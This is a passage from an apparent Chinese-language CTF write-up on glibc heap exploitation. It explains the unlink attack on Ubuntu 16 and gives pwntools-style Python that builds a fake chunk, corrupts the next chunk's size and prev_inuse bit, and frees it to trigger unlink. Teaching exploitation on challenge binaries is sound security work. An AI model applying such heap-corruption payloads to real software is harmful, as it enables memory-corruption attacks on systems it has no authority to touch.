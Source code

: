

下面进行unlink操作讲解，上面也有2道了，这里还是讲下堆排布的问题吧

因为是Ubuntu16，没有tcache，方便操作一些嘿哈。

我们现在理清了整个chunk的结构

数组chunk2个用处存放指向的内容地址，还有指向的chunk的大小



下面我们先构造2个chunk，chunk0就是我们拿来写入fake chunk的

```python
add(0,0x98,'a'*8)#0
add(1,0x90,'b'*8)#1
```

fake chunk构造代码

prev_size=0 fake chunk=0x91 fd=ptr-0x18 bk=ptr-0x10 中间的junk code填满直到满足fake chunk的大小然后去把下一个chunk的

prev_size改为fake chunk size 下一个chunk大小 改为a0 size insure位置为0欺骗程序，让他以为上一个chunk被free了过检测

```python
payload=p64(0)+p64(0x91)+p64(ptr-0x18)+p64(ptr-0x10)
payload+=p64(0)*14+p64(0x90)+"\xa0"
edit(0,payload)
#gdb.attach(r)
delete(1)
```



